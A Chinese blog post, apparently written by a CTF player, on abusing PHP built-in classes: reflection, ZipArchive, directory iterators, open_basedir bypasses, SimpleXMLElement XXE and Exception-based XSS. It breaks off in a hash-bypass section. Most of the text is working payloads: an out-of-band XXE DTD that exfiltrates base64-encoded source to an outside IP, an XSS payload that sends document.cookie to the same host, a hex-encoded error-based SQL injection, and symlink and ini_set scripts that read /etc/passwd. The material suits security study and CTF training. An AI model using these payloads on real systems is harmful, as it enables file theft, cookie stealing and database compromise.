


+++
title = "php原生类的利用"
slug = "php-native-class-exploitation"
description = ""
date = "2024-09-19T10:09:04"
lastmod = "2024-09-19T10:09:04"
image = ""
license = ""
categories = ["talk"]
tags = ["php", "姿势"]
+++

# 0x01 前言

在`base`和其他部分赛题中遇到了几道原生类的利用刚好，我在计划中也有此打算进行学习以及利用，那么就来看看吧

# 0x02 question

## 了解原生类

> PHP 作为一门广泛应用于 Web 开发的脚本语言，它的目标是帮助开发者快速构建功能丰富的应用程序。因此，它提供了大量的原生类和函数，通过这些类的调用，PHP 开发者可以轻松处理文件、数据库、网络请求、加密等多种任务，极大地提升了开发效率。

所以说其实是有很多原生类的，包括算法\压缩\json\xml\图像等等，很多，大家可以自己去深入研究，这里的话只提及我们平时能够进行利用，达到任意文件读取\ssrf等攻击手段的原生类

## 原生类的利用

### 反射

#### ReflectionMethod

利用版本：`(PHP 5, PHP 7)`

`ReflectionMethod` 是 PHP 提供的反射类之一，用于获取类中某个具体方法的详细信息。

常见方法

```php
# 反射调用方法
(new ReflectionMethod("class?","method?"))->invoke(new [class?]/NULL(静态类),args1,args2);
(new ReflectionMethod("class?","method?"))->invokeArgs(new [class?]/NULL(静态类,[args1,args2]));

# 设置私有/受保护方法
$f = new ReflectionMethod("class?","method?");
$f->setAccessible(true);
$f->invoke(new [class?]);
(new [class?])->[method?](); // 会报错

# 获取函数信息
(new ReflectionMethod("class?","method?"))->getDeclaringClass() // 获取反射方法的类作为反射类返回
(new ReflectionMethod("class?","method?"))->isAbstract() // 方法是否是抽象方法
(new ReflectionMethod("class?","method?"))->isConstructor() // 方法是否是 __construct
(new ReflectionMethod("class?","method?"))->isDestructor() // 方法是否是 __destruct
(new ReflectionMethod("class?","method?"))->isFinal() // 方法是否定义了final
(new ReflectionMethod("class?","method?"))->isPrivate() // 方法是否是私有方法
(new ReflectionMethod("class?","method?"))->isProtected() // 方法是否是受保护方法
(new ReflectionMethod("class?","method?"))->isPublic() // 方法是否是公有方法
(new ReflectionMethod("class?","method?"))->isStatic() // 方法是否是静态方法
(new ReflectionMethod("class?","method?"))->getDocComment() // 获取方法注释内容
(new ReflectionMethod("class?","method?"))->getStartLine() // 获取方法开始行号
(new ReflectionMethod("class?","method?"))->getEndLine() // 获取方法结束行号
(new ReflectionMethod("class?","method?"))->getExtensionName() // 获取扩展名称
(new ReflectionMethod("class?","method?"))->getName() // 获取方法名称
(new ReflectionMethod("class?","method?"))->getNamespaceName() // 获取命名空间名称
(new ReflectionMethod("class?","method?"))->getNumberOfParameters() // 获取方法参数数量
(new ReflectionMethod("class?","method?"))->getNumberOfRequiredParameters() // 获取方法必须传入的参数数量
(new ReflectionMethod("class?","method?"))->getParameters() // 获取方法参数名
(new ReflectionMethod("class?","method?"))->getShortName() // 获取方法短名
(new ReflectionMethod("class?","method?"))->getStaticVariables() // 获取方法静态变量
(new ReflectionMethod("class?","method?"))->hasReturnType() // 方法是否有特定返回类型
(new ReflectionMethod("class?","method?"))->inNamespace() // 方法是否定义在命名空间
(new ReflectionMethod("class?","method?"))->isClosure() // 方法是否是匿名函数
(new ReflectionMethod("class?","method?"))->isDeprecated() // 方法是否弃用
(new ReflectionMethod("class?","method?"))->isGenerator() // 方法是否是生成器函数
(new ReflectionMethod("class?","method?"))->isInternal() // 方法是否是内部函数
(new ReflectionMethod("class?","method?"))->isUserDefined() // 方法是否是用户定义
```

**[2021 CISCN]easy_source**

```php
<?php
show_source(__FILE__);
class User
{
    private static $c = 0;

    function a()
    {
        return ++self::$c;
    }

    function b()
    {
        return ++self::$c;
    }

    function c()
    {
        return ++self::$c;
    }

    function d()
    {
        return ++self::$c;
    }

    function e()
    {
        return ++self::$c;
    }

    function f()
    {
        return ++self::$c;
    }

    function g()
    {
        return ++self::$c;
    }

    function h()
    {
        return ++self::$c;
    }

    function i()
    {
        return ++self::$c;
    }

    function j()
    {
        return ++self::$c;
    }

    function k()
    {
        return ++self::$c;
    }

    function l()
    {
        return ++self::$c;
    }

    function m()
    {
        return ++self::$c;
    }

    function n()
    {
        return ++self::$c;
    }

    function o()
    {
        return ++self::$c;
    }

    function p()
    {
        return ++self::$c;
    }

    function q()
    {
        return ++self::$c;
    }

    function r()
    {
        return ++self::$c;
    }

    function s()
    {
        return ++self::$c;
    }

    function t()
    {
        return ++self::$c;
    }
    
}

$rc=$_GET["rc"];    
$rb=$_GET["rb"];    
$ra=$_GET["ra"];   
$rd=$_GET["rd"];    
$method= new $rc($ra, $rb);    
var_dump($method->$rd());   
```

先扫描出这个关键文件之后，可以看到什么都没有，很明显是原生类的利用

```php
return ++self::$c;
```

这个是进行`User`类方法的调用,因为`$c`是一个静态属性嘛，每次触发一个方法就`++`,最后是可以把所有方法遍历的，那么我们可以大胆猜测`flag`在注释中,利用`ReflectionMethod`类,最后找到是在`q`里面

```
?rc=ReflectionMethod&ra=User&rb=q&rd=getDocComment
```

这么传刚好也就形成了我们说的那个

```php
var_dump(new ReflectionMethod("User","q"))->getDocComment
```

成功读取到了`flag`

#### ReflectionClass

利用版本：`(PHP 5, PHP 7)`

```php
# 获取/修改类中静态属性的值
(new ReflectionClass("class?"))->getStaticProperties(); # 获取静态属性
(new ReflectionClass("class?"))->getStaticPropertyValue("key?","default_value?"); # 获取指定静态属性的值，可以手动设置默认值
(new ReflectionClass("class?"))->setStaticPropertyValue("key?","value?"); # 设置静态属性的值

# 获取类中属性的值
(new ReflectionClass("class?"))->getProperties(); # 获取属性
(new ReflectionClass("class?"))->getProperty("key?") # 获取指定属性的值

# 实例化新类，
# 比如反射 phpinfo 函数
$c = new ReflectionClass('ReflectionFunction');
$iv = $c->newInstance('phpinfo');
$ia = $c->newInstanceArgs(array('phpinfo'));
$ie = $c->newInstanceWithoutConstructor(); // 调用一个类但不调用其 __construct 方法

# 获取类信息
(new ReflectionClass("class?"))->export(); // 导出类
(new ReflectionClass("class?"))->getConstant(string $name) // 获取类中指定常量值
(new ReflectionClass("class?"))->getConstants(?int $filter = null) // 获取类中所有常量值
(new ReflectionClass("class?"))->getConstructor() // 获取类中构造方法(__construct)作为反射方法返回
(new ReflectionClass("class?"))->getDefaultProperties() // 获取类中默认属性
(new ReflectionClass("class?"))->getDocComment() // 获取类的注释
(new ReflectionClass("class?"))->getStartLine() // 获取类开始行号
(new ReflectionClass("class?"))->getEndLine() // 获取类结束行号
(new ReflectionClass("class?"))->getExtensionName() // 获取类的扩展名称
(new ReflectionClass("class?"))->getFileName() // 获取类所在的文件名
(new ReflectionClass("class?"))->getInterfaceNames() // 获取类的接口名称
(new ReflectionClass("class?"))->getInterfaces() // 获取类的接口
(new ReflectionClass("class?"))->getMethod(string $name) // 获取类的指定方法作为反射方法返回
(new ReflectionClass("class?"))->getMethods() // 获取类的方法
(new ReflectionClass("class?"))->getModifiers() // 获取类的修饰符
(new ReflectionClass("class?"))->getName() // 获取类名称
(new ReflectionClass("class?"))->getNamespaceName() // 获取类所在命名空间名称
(new ReflectionClass("class?"))->getParentClass() // 获取父类作为反射类返回
(new ReflectionClass("class?"))->getReflectionConstant() // 获取类的指定常量作为反射类常量返回
(new ReflectionClass("class?"))->getReflectionConstants() // 获取类的常量作为反射类常量数组返回
(new ReflectionClass("class?"))->getShortName() // 获取类的短名
(new ReflectionClass("class?"))->getTraitAliases() // 获取类所使用 trait 别名的数组
(new ReflectionClass("class?"))->getTraitNames() // 获取类所使用 traits 名称的数组
(new ReflectionClass("class?"))->getTraits() // 获取类所使用的 traits 
(new ReflectionClass("class?"))->hasConstant(string $name) // 类是否有指定的常量
(new ReflectionClass("class?"))->hasMethod(string $name) // 类是否有指定的方法
(new ReflectionClass("class?"))->implementsInterface(string $interface) // 类是否实现指定的接口
(new ReflectionClass("class?"))->inNamespace() // 类是否在命名空间中
(new ReflectionClass("class?"))->isAbstract() // 类是否是抽象类
(new ReflectionClass("class?"))->isAnonymous() // 类是否是匿名类
(new ReflectionClass("class?"))->isCloneable() // 类是否是可复制的
(new ReflectionClass("class?"))->isFinal() // 类是否声明为 final
(new ReflectionClass("class?"))->isInternal() // 类是否是内部的
(new ReflectionClass("class?"))->isIterable() // 类是否是一个迭代类
(new ReflectionClass("class?"))->isIterateable() // 类是否是可迭代的
(new ReflectionClass("class?"))->isSubclassOf(string $class) // 类是否是指定类的子类
(new ReflectionClass("class?"))->isTrait() // 类是否是 trait
(new ReflectionClass("class?"))->isUserDefined() // 类是否是用户定义的
```

#### ReflectionFunctionAbstract

这个是`ReflectionFunction` 和 `ReflectionMethod` 的父类，所以想着看看有什么方法，但是没想到这个反射类基本方法都是差不多甚至是一模一样的

```php
# 获取函数/方法的参数信息
(new ReflectionFunctionAbstract("function?"))->getParameters(); // 获取参数列表

# 获取函数/方法的返回类型
(new ReflectionFunctionAbstract("function?"))->getReturnType(); // 获取返回类型

# 获取函数/方法的开始和结束行号
(new ReflectionFunctionAbstract("function?"))->getStartLine(); // 获取开始行号
(new ReflectionFunctionAbstract("function?"))->getEndLine(); // 获取结束行号

# 获取函数/方法的文档注释
(new ReflectionFunctionAbstract("function?"))->getDocComment(); // 获取文档注释

# 获取函数/方法的静态变量
(new ReflectionFunctionAbstract("function?"))->getStaticVariables(); // 获取静态变量

# 调用函数/方法
(new ReflectionFunctionAbstract("function?"))->invoke($arg1, $arg2); // 直接调用函数/方法
(new ReflectionFunctionAbstract("function?"))->invokeArgs(array $args); // 使用数组调用函数/方法

# 判断函数/方法是否返回引用
(new ReflectionFunctionAbstract("function?"))->returnsReference(); // 是否返回引用

# 检查函数/方法是否是闭包
(new ReflectionFunctionAbstract("function?"))->isClosure(); // 是否为闭包

# 检查函数/方法是否为生成器
(new ReflectionFunctionAbstract("function?"))->isGenerator(); // 是否为生成器

# 检查函数/方法是否是内部函数/方法
(new ReflectionFunctionAbstract("function?"))->isInternal(); // 是否为内部函数

# 检查函数/方法是否为用户定义的
(new ReflectionFunctionAbstract("function?"))->isUserDefined(); // 是否为用户定义的

# 获取函数/方法名称
(new ReflectionFunctionAbstract("function?"))->getName(); // 获取函数/方法名称

# 导出函数/方法信息
(new ReflectionFunctionAbstract("function?"))->export('function?', true); // 导出函数/方法信息
```

### 文件处理

#### ZipArchive

这个单独列出来是因为既可以目录又可以文件，直接给poc了

##### 删除文件

```php
$a=new ZipArchive();
$a->open("file", ZipArchive::OVERWRITE); // ZipArchive::CREATE也可以用8代替
```

注意这里的`file`是填写`zip`文件路径

##### 读取文件

```php
$f = "flag";
$zip=new ZipArchive();
$zip->open("a.zip", ZipArchive::CREATE);
$zip->addFile($f);
$zip->close();
$zip->open("a.zip");
echo $zip->getFromName($f);
$zip->close();
```

##### 有损写文件

用处不大

```php
$f = "flag";
$zip=new ZipArchive();
$zip->open("a.zip", ZipArchive::CREATE);
$zip->setArchiveComment("<?php phpinfo();?>");
$zip->addFromString("file", "");
$zip->close();
//include "a.zip";
```

#### 目录

##### **DirectoryIterator**

 利用版本**PHP5, PHP7, PHP8**

我们可以利用这个类来遍历或者是使用`glob`,直接寻找想要的文件

查找`f`开头的文件

```php
<?php

$dir=new DirectoryIterator("glob:///f*");
echo $dir;
```

遍历根目录的文件名

```php
<?php

$dir=new DirectoryIterator("/");
foreach($dir as $a){
    echo $a.'<br>';
}
```

当然这仅仅只是Demo深入其中我们查询官方文档，可以看到其中也是有很多方法，但是我们注重看我们使用的这个



也就是说其实我们是调用了其中的`__toString()`,所以正经的写法是这样子

```php
<?php

$dir=new DirectoryIterator("/");
foreach($dir as $a){
    echo $a->__toString().'<br>';
}
```

但是我们不写的话由于`echo`和`var_dump`也会自动调用这个方法

payload

```
$d=new DirectoryIterator("/");foreach($d as $a){echo $a.'<br>';}
```

##### **Filesystemlterator** 

利用版本，**PHP 5 >= 5.3.0, PHP 7, PHP 8**

这个类和**DirectoryIterator**是孪生兄弟，一样的不写了就

```
$d=new FilesystemIterator("/");foreach($d as $a){echo $a.'<br>';}
```

##### GlobIterator

继承于**DirectoryIterator**而且自带了`glob`,一测便知

利用版本，**PHP 5 >= 5.3.0, PHP 7, PHP 8**

```php
<?php

$dir=new GlobIterator("/*");
foreach($dir as $a){
    echo $a->__toString().'<br>';
}
```

遍历根目录的文件

payload

```
$d=new GlobIterator("/*");foreach($d as $a){echo $a.'<br>';}
```

#### 文件内容

##### SplFileObject

```php
<?php
$content=new SplFileObject('/flag');
foreach($content as $content){
    echo $content."<br>";
}
```

相当于是`file_get_contents()`,但是这个是类同样是使用`__toString`方法进行读取的

#### 绕过open_basedir

`open_basedir` 是 PHP 中的一项安全配置，用于限制脚本访问的文件系统路径。它可以防止 PHP 脚本访问不允许的目录，从而增强服务器的安全性。但是其实是有方法可以绕过进行任意文件目录\文件读取

##### DirectoryIterator+glob

然后我们写个`demo`(P牛的代码)

```php
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>
```

但是这个好像对版本有要求，我现在如果在ini中设置了`open_basedir`是不能通了(7.3.4)

##### realpath

> Realpath函数是php中将一个路径规范化成为绝对路径的方法，它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。
>
> 在开启了open_basedir以后，这个函数有个特点：当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open_basedir里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。

根据抛出的错误做一个分流就可以暴力猜解文件

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/blog/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```

主要看看函数这里

```php
$regexp = '/File\((.*)\) is not within/';
preg_match($regexp, $errstr, $matches);
```

首先就是利用正则来匹配文件，如果匹配到了错误，那么`$mathes`就会得到值，

而其内部其实是这样

```
$matches = [
    0 => 'File(C:\Windows\System32\drivers\etc\hosts) is not within',
    1 => 'C:\Windows\System32\drivers\etc\hosts'
];
```

所以就能得到文件路径(本地是通了的这个)

其中还有很多类似的通过暴力破解的方法，详情可以看p牛的博客

`https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html`

类似的有`bindtextdomain()`,`SplFileInfo::getRealPath()`,`imageftbbox()`还是挺多的

##### ini_set() + 相对路径

> 由于open_basedir自身的问题，设置为相对路径`..`在解析的时候会致使自身向上跳转一层

以此类推就可以达到理想路径进行文件读取了

```php
<?php
    show_source(__FILE__);
    ini_get('open_basedir');

    mkdir('test');
    chdir('test');
    ini_set('open_basedir','..');
    chdir('..');
    chdir('..');
    chdir('..');
    ini_set('open_basedir','/');

    echo file_get_contents('/etc/passwd'); 

?>
```

##### shell

```php
<?php
    show_source(__FILE__);
    ini_get('open_basedir');
    system('cat /etc/passwd');
?>
```

这样的payload可以直接打，无限制

##### symlink()

进行文件常见符号链接，软链接知道吧，差不多是这个意思，取个别名

```php
bool symlink ( string $target , string $link )
```

- **$target**：指向的目标文件或目录的路径，即符号链接指向的实际文件或目录。
- **$link**：符号链接的路径名称，即创建的符号链接的名称。

```php
symlink('/var/www/html', './bao');
```

这个时候访问`bao`就相当于访问`/var/www/html`

那么可以利用的poc,也就是通过路径的伪装来绕过

```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","bao");
symlink("bao/../../../../etc/passwd","POC");
unlink("bao");
mkdir("bao");
system("cat POC");
?>
```

那么这个`poc`就可以读取文件`/etc/passwd`,为什么是四层呢，因为本身我们在的目录是

`/var/www/html`,所以至少是四层，但是会有个疑问对吧，不是说好的`bao`相当于是`A/B/C/D`嘛，这四层也仅仅只能回退到`/var/www/html`里面啊

```shell
root@dkcjbRCL8kgaNGz:/var/www/html# ls
7.php  A  POC  bao  index.nginx-debian.html  test.dtd
root@dkcjbRCL8kgaNGz:/var/www/html# cd bao/../../../../etc
root@dkcjbRCL8kgaNGz:/etc# 
```

这个弄了半天好似理解了，就相当于是在相对路径里面夹杂了绝对路径，所以测试的时候也是成功了

### xxe

####  SimpleXMLElement

可以利用这个原生类进行`xxe`攻击

```php
$x=new SimpleXMLElement("http://xxx.xxx.xxx.xxx/evil.xml",2,true);
```



当确定为`true`时，会当成`xml`文档解析,这不就典型`xxe`了嘛，所以只要`xxe`,能打的都能打

demo **[SUCTF 2018]Homework**

注册账号登录之后得到源码

```php
<?php 
class calc{
	function __construct__(){
		calc();
	}

	function calc($args1,$method,$args2){
		$args1=intval($args1);
		$args2=intval($args2);
		switch ($method) {
			case 'a':
				$method="+";
				break;

			case 'b':
				$method="-";
				break;

			case 'c':
				$method="*";
				break;

			case 'd':
				$method="/";
				break;
			
			default:
				die("invalid input");
		}
		$Expression=$args1.$method.$args2;
		eval("\$r=$Expression;");
		die("Calculation results:".$r);
	}
}
?>
```

再度进入页面之后知道

```
/show.php?module=calc&args[]=2&args[]=a&args[]=2
```

`module`是调用的类,那么我们构造`payload`

```
/show.php?module=SimpleXMLElement&args[]=http://27.25.151.48:12138/poc.xml&args[]=2&args[]=true
```

poc.xml

```xml
<!DOCTYPE try[
<!ENTITY % int SYSTEM "http://27.25.151.48:12138/poc.dtd">
%int;
]>
```

poc.dtd

```xml
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://27.25.151.48:9999/?%payl;'>">
%all;
%send;
```

然后监听得到源码

```php
<?php
	include("function.php");
	include("config.php");

	$username=w_addslashes($_COOKIE['user']);
	$check_code=$_COOKIE['cookie-check'];
	$check_sql="select password from user where username='".$username."'";
	$check_sum=md5($username.sql_result($check_sql,$mysql)['0']['0']);
	if($check_sum!==$check_code){
		header("Location: login.php");
	}
?>
```

把`dtd`改改然后接着读就可以了

`function.php`

```php
<?php

function sql_result($sql,$mysql){
	if($result=mysqli_query($mysql,$sql)){
		$result_array=mysqli_fetch_all($result);
		return $result_array;
	}else{
		 echo mysqli_error($mysql);
		 return "Failed";
	}
}

function upload_file($mysql){
	if($_FILES){
		if($_FILES['file']['size']>2*1024*1024){
			die("File is larger than 2M, forbidden upload");
		}
		if(is_uploaded_file($_FILES['file']['tmp_name'])){
			if(!sql_result("select * from file where filename='".w_addslashes($_FILES['file']['name'])."'",$mysql)){
				$filehash=md5(mt_rand());
				if(sql_result("insert into file(filename,filehash,sig) values('".w_addslashes($_FILES['file']['name'])."','".$filehash."',".(strrpos(w_addslashes($_POST['sig']),")")?"":w_addslashes($_POST['sig'])).")",$mysql)=="Failed") die("Upload failed");
				$new_filename="./upload/".$filehash.".txt";
				move_uploaded_file($_FILES['file']['tmp_name'], $new_filename) or die("Upload failed");
				die("Your file ".w_addslashes($_FILES['file']['name'])." upload successful.");
			}else{
				$hash=sql_result("select filehash from file where filename='".w_addslashes($_FILES['file']['name'])."'",$mysql) or die("Upload failed");
				$new_filename="./upload/".$hash[0][0].".txt";
				move_uploaded_file($_FILES['file']['tmp_name'], $new_filename) or die("Upload failed");
				die("Your file ".w_addslashes($_FILES['file']['name'])." upload successful.");
			}
		}else{
			die("Not upload file");
		}
	}
}

function w_addslashes($string){
	return addslashes(trim($string));
}

function do_api($module,$args){
	$class = new ReflectionClass($module);
	$a=$class->newInstanceArgs($args);
}
?>
```

`config.php`

```php
<?php
	$db="calc";
	$dbusername="suctf";
	$dbpassword="suctf";
	$host="127.0.0.1";

	$mysql=mysqli_connect($host,$dbusername,$dbpassword,$db) or die("connect failed");
?>
```

可以看到是个SQL注入

show.php

```php
<?php
	include("function.php");
	include("config.php");
	include("calc.php");

	if(isset($_GET['action'])&&$_GET['action']=="view"){
		if($_SERVER["REMOTE_ADDR"]!=="127.0.0.1") die("Forbidden.");
		if(!empty($_GET['filename'])){
			$file_info=sql_result("select * from file where filename='".w_addslashes($_GET['filename'])."'",$mysql);
			$file_name=$file_info['0']['2'];
			echo("file code: ".file_get_contents("./upload/".$file_name.".txt"));
			$new_sig=mt_rand();
			sql_result("update file set sig='".intval($new_sig)."' where id=".$file_info['0']['0']." and sig='".$file_info['0']['3']."'",$mysql);
			die("<br>new sig:".$new_sig);
		}else{
			die("Null filename");
		}
	}

	$username=w_addslashes($_COOKIE['user']);
	$check_code=$_COOKIE['cookie-check'];
	$check_sql="select password from user where username='".$username."'";
	$check_sum=md5($username.sql_result($check_sql,$mysql)['0']['0']);
	if($check_sum!==$check_code){
		header("Location: login.php");
	}

	$module=$_GET['module'];
	$args=$_GET['args'];
	do_api($module,$args);
?>
```

他这里有个转义函数，所以我们用16进制绕过

```sql
'||extractvalue(1,concat(0x7e,(select (flag) from flag),0x7e))||'

0x277c7c6578747261637476616c756528312c636f6e63617428307837652c2873656c6563742028666c6167292066726f6d20666c6167292c3078376529297c7c27
```

这里注意了注入参数是sig，所以我试了好久,原因

```php
sql_result("update file set sig='".intval($new_sig)."' where id=".$file_info['0']['0']." and sig='".$file_info['0']['3']."'",$mysql);
```

最先我看到了filename也有然后就一直打，后来发现filename的结果不返回啊

然后修改

```xml
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=http://127.0.0.1/show.php?action=view&filename=6.txt">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://27.25.151.48:9999/?%payl;'>">
%all;
%send;
```

```
/show.php?module=SimpleXMLElement&args[]=http://27.25.151.48:12138/poc.xml&args[]=2&args[]=true
```

```
POST /submit.php HTTP/1.1
Host: cfc14c63-0d85-4cb5-b597-f99c05249821.node5.buuoj.cn:81
Content-Length: 404
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://cfc14c63-0d85-4cb5-b597-f99c05249821.node5.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary50xpARCP4aIhe1PB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://cfc14c63-0d85-4cb5-b597-f99c05249821.node5.buuoj.cn:81/submit.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cookie-check=6a9d3dc94565cd88dc0f0ec6f6538c6a; user=bao
Connection: close

------WebKitFormBoundary50xpARCP4aIhe1PB
Content-Disposition: form-data; name="file"; filename="9.txt"
Content-Type: text/plain

123
------WebKitFormBoundary50xpARCP4aIhe1PB
Content-Disposition: form-data; name="sig"

0x277c7c6578747261637476616c756528312c636f6e63617428307837652c2873656c6563742028666c6167292066726f6d20666c6167292c3078376529297c7c27
------WebKitFormBoundary50xpARCP4aIhe1PB--
```

说实话这个demo给我自己都折磨了一会，网上的垃圾工具，字符串转16进制给我空格吞了，导致一直不成功,报错注入应该会吧，

```sql
'||extractvalue(1,concat(0x7e,(select right(flag,20) from flag),0x7e))||'

0x277c7c6578747261637476616c756528312c636f6e63617428307837652c2873656c65637420726967687428666c61672c3230292066726f6d20666c6167292c3078376529297c7c27
```

```
file code: 123XPATH syntax error: '~flag{ddc9686e-d0c0-489e-99f3-23'<br>new sig:2013105070

file code: 123XPATH syntax error: '~e-99f3-23eb9ad18c97}~'<br>new sig:1181727055

flag{36b20a1e-3b1e-4c56-89e9-6677da259211}
```

中途出现了一点其他的知识但是最重要的漏洞就是这个`xxe`类的使用

### xxs

#### Error/Exception 

**Exception 类适用于PHP 5和7，而 Error 只适用于 PHP 7。并且是开启报错的情况**

这两个内置类都差不多，所以干脆放一起

这两个类的属性

- message：错误消息内容
- code：错误代码
- file：抛出错误的文件名
- line：抛出错误在该文件中的行数

先随便写个`demo`

```php
<?php
show_source(__FILE__);
$a=unserialize($_GET['a']);
echo $a;
```

然后写个`poc`,只要是`xss`的`payload`都可以通过这两个类进行实现

```php
<?php
$a=new Error("<script>alert('xss')</script>");
echo urlencode(serialize($a));
```

或者是另一个

```php
<?php
$a=new Exception("<script>alert('xss')</script>");
echo urlencode(serialize($a));
```

只要是`xss`能做的都能做，看看是这两个类中的什么方法导致的呢,众所周知`echo`是来触发`__toString()`的但是我们进入方法看看

```c
zend_string *message = zval_get_string(GET_PROPERTY(exception, ZEND_STR_MESSAGE));
//这里捕捉message属性

if ((Z_OBJCE_P(exception) == zend_ce_type_error || Z_OBJCE_P(exception) == zend_ce_argument_count_error) && strstr(ZSTR_VAL(message), ", called in ")) {
			zend_string *real_message = zend_strpprintf_unchecked(0, "%S and defined", message);
			zend_string_release_ex(message, 0);
			message = real_message;
		}
// 这里进行错误捕捉
RETURN_STR(str);
这里再放回
```

所以成功的插入恶意的`xss`代码

demo **[BJDCTF 2nd]xss之光**

扫描一下找到`git`

恢复一下

```
python GitHack.py http://7e43e9af-3b17-47b3-9532-11cfbaef99d7.node5.buuoj.cn:81/.git/
```

```php
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

那么回去找网站，找不到什么东西，先尝试打`cookie`

```php
<?php
$a=new Exception("<script>window.open('http://27.25.151.48:9999/'+document.cookie)</script>");
echo urlencode(serialize($a));
```

```php
?yds[is_so_beautiful=O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A73%3A%22%3Cscript%3Ewindow.open%28%27http%3A%2F%2F27.25.151.48%3A9999%2F%27%2Bdocument.cookie%29%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A54%3A%22C%3A%5CUsers%5Cbaozhongqi%5CDocuments%5CVSCODE%5C.vscode%5Cphp%5C1.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```

成功拿到`flag`,我想着要是还拿不到的话就直接打源码了，但是所幸拿到了

### 绕过hash

#### Error/Exception 

**Exception 类适用于PHP 5和7，而 Error 只适用于 PHP 7。**

利用类的`__toString()`抛出错误，返回数据

```php
<?php
$str='baozongwi';
$a=new Error($str,1);
$b=new Error($str,1);

echo $a;
echo $b;
